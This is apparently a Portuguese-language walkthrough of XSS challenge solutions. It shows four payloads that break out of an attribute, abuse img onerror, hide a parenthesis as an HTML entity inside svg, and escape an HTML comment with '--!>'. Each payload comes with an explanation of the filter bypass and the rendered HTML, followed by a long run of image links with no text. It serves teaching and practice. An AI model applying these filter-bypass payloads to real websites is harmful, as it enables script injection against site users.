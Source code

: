 ![image](https://github.com/user-attachments/assets/c07d2c64-0365-4938-875e-bdb428fea62a)

Input:
```
"><script>prompt(1)</script>
```

Description:
O atributo value seja fechado com " — você escapou a string.

O campo de input se feche com >.

O navegador interprete o restante como HTML válido, e execute o script.

HTML source:
```
<input type="text" value=""><script>alert(1)</script>">
```

-----

![image](https://github.com/user-attachments/assets/40ee93b5-5a4a-42fb-96b7-886521db43d7)

Input:
```
<img src=x onerror=prompt(1)//
```

Description:
Por conta do filtro não da para abrir e fechar o construtor do javascript (<>), com isso, podemos apenas abrir <, dar uma imagem que tem como referência x, no entanto essa imagem não existe, logo, ela dará erro e o erro que foi indicado foi o próprio prompt(1), o restante do input (//) serve para comentar o restante da linha, com isso o fechamento do <article> não acontece, e o HTML fecha sozinho o >, após isso ele finaliza o <article> também.

HTML source:
```
<article><img src=x onerror=prompt(1)//</article>
```

-----

![image](https://github.com/user-attachments/assets/1961c834-7137-4764-b43b-076a91695485)

Input:
```
<svg><script>prompt&#40;1)</script>
```

Description:
O navegador interpreta o conteúdo dentro de <svg> como XML/HTML, então aceita <script> lá dentro.

Uma entidade HTML: &#40; → que representa (.

Como ( está sendo filtrado, mas &#40; não é o caractere real, o filtro não detecta e não remove essa entidade.

Quando o HTML é renderizado pelo navegador, &#40; é convertido de volta para ( — isso é comportamento normal do parser HTML.

HTML source:
```
<svg><script>prompt&#40;1)</script>
```

-----

![image](https://github.com/user-attachments/assets/c45de787-add9-4100-afa2-05661fd71948)

Input:

```
--!> <img src=x onerror=prompt(1)
```

Outra forma de fecha comentário em HTML é usando --!>.

HTML source:
```
<!-- --!> <img src=x onerror=prompt(1) -->
```

-----

![image](https://github.com/user-attachments/assets/9e2f2d74-e28a-4ce2-81af-a14399681a10)

-----

![image](https://github.com/user-attachments/assets/41260ad4-96ca-4920-82e4-d14b137026db)

-----

![image](https://github.com/user-attachments/assets/cb66fc90-8b07-4e5e-9ea1-fc58f5b9e319)

-----

![image](https://github.com/user-attachments/assets/19a64242-8781-4c49-a1a7-8aa5e452499c)

-----

![image](https://github.com/user-attachments/assets/1acbc0ce-b7a3-44fd-9310-42dd26aca31e)

-----

![image](https://github.com/user-attachments/assets/904e735c-975a-4988-b81c-b508d99f321e)

-----

![image](https://github.com/user-attachments/assets/1e1649d2-f8db-481a-a3df-142d4f578056)

-----

![image](https://github.com/user-attachments/assets/41a629b0-899a-4417-93e5-2676c6edabbc)

-----

![image](https://github.com/user-attachments/assets/54ac5579-6d9c-428b-8dda-bd5389198186)

-----

![image](https://github.com/user-attachments/assets/69da3e2a-9b60-488d-ba2d-9f68b19b7bf4)

-----

![image](https://github.com/user-attachments/assets/36392822-ed9c-4edf-bc35-8aa9d27ceda8)

-----

![image](https://github.com/user-attachments/assets/9f2feeb0-98cb-45c3-bc24-d111dc94f0dc)

-----

